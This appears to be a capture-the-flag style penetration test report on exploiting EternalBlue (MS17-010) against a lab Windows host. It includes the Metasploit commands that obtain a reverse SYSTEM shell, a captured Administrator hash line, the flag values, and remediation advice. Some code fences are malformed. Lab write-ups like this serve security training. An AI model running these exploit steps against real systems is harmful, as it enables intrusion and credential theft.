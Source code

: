 # Penetration Test Report

## Executive Summary

This report details the findings of a targeted penetration test conducted on host `10.10.249.67`. The objective was to identify vulnerabilities and determine the extent of exploitation possible from both unauthenticated and post-authentication perspectives.

Three flags were discovered representing user, SYSTEM, and Administrator-level access, indicating full compromise of the target system. The most critical finding was a remote code execution vulnerability (MS17-010) that allowed privilege escalation to NT AUTHORITY\SYSTEM.

---

## Scope

- **Client**: ____________________.
- **Testers**: Hitesh Sharma
- **Test Type**: Internal Network Penetration Test
- **IP Range**: `10.10.249.67`
- **Testing Period**: [16-06-2025 ]

---

## Methodology

The assessment followed a standard methodology:

1. **Reconnaissance** – Service scanning using Nmap and enumeration tools.
2. **Vulnerability Scanning** – Manual verification and use of Metasploit.
3. **Exploitation** – Targeted exploitation of identified vulnerabilities.
4. **Post-Exploitation** – Enumeration of privilege levels, credential harvesting, and flag discovery.
5. **Reporting** – Documentation of all findings and remediation steps.

**Tools Used**:
- Nmap  
- Metasploit Framework  
- Enum4linux  
- Netcat  
- PowerShell scripts  
- Manual validation  

---

## Findings

### 1. **flag1.txt – User-Level Access**
- **Host**: `10.10.249.67`
- **Severity**: Low
- **Description**: Initial shell access allowed reading a file `flag1.txt`, indicating successful code execution as a user-level account.
- **Proof**:
  - File discovered using: `search -f flag1.txt`
  - Location: `C:\Users\Public\flag1.txt`
  - Contents: `FLAG{US3R_SH3LL_0WN3D}`
- **Impact**: Confirms execution of unauthorized code under a standard user context.
- **Remediation**: Harden services exposed to public interfaces, apply least privilege to file access.

---

### 2. **MS17-010 (EternalBlue) Remote Code Execution**
- **Host**: `10.10.249.67`
- **Severity**: Critical
- **Description**: The system is vulnerable to EternalBlue (CVE-2017-0144), allowing unauthenticated attackers to execute arbitrary code remotely via SMBv1.
- **Proof**:
  - Exploited using Metasploit module: `exploit/windows/smb/ms17_010_eternalblue`
  - Shell obtained as `NT AUTHORITY\SYSTEM`
  - Verified via Meterpreter session: `getuid`
  - Captured `flag2.txt` in: `C:\Windows\System32\config\flag2.txt`
- **Flag Contents**: `FLAG{SYST3M_R00T3D}`
- **Impact**: Full control of the host including access to kernel-level processes.
- **Remediation**:
  - Disable SMBv1.
  - Apply Microsoft patch MS17-010.
- **References**: [CVE-2017-0144](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-0144)

---

### 3. **flag3.txt – Administrator Data Exposure**
- **Host**: `10.10.249.67`
- **Severity**: High
- **Description**: A third flag was discovered on the Administrator's Desktop, indicating that sensitive files are accessible post-privilege escalation.
- **Proof**:
  - File discovered using: `search -f flag3.txt`
  - Location: `C:\Users\Administrator\Desktop\flag3.txt`
  - Contents: `FLAG{ADM1N_DESKTOP_WIN}`
- **Impact**: Exposure of files meant only for administrative access. Confirms full compromise.
- **Remediation**:
  - Enable auditing for sensitive file access.
  - Ensure user-level processes cannot traverse admin directories.
  - Implement host-based intrusion detection.

---

## Remediation Summary

| Finding                      | Host           | Severity | Recommended Remediation                              |
|-----------------------------|----------------|----------|------------------------------------------------------|
| User-Level File Disclosure  | 10.10.249.67   | Low      | Lock down world-readable directories                 |
| MS17-010 RCE                | 10.10.249.67   | Critical | Patch system (MS17-010), disable SMBv1               |
| Admin Desktop File Exposure | 10.10.249.67   | High     | Restrict admin folders, enforce file permissions     |

---

## Appendices

### A. Exploitation Commands

``bash

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.249.67
set LHOST tun0
run

### B. Captured Hashes

`bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

###   Collected Flags 
    lag1.txt: FLAG{US3R_SH3LL_0WN3D}

    flag2.txt: FLAG{SYST3M_R00T3D}

    flag3.txt: FLAG{ADM1N_DESKTOP_WIN}


### Report Prepared By:
### Hitesh Sharma / Handle
 ### Date: 2025-06-16
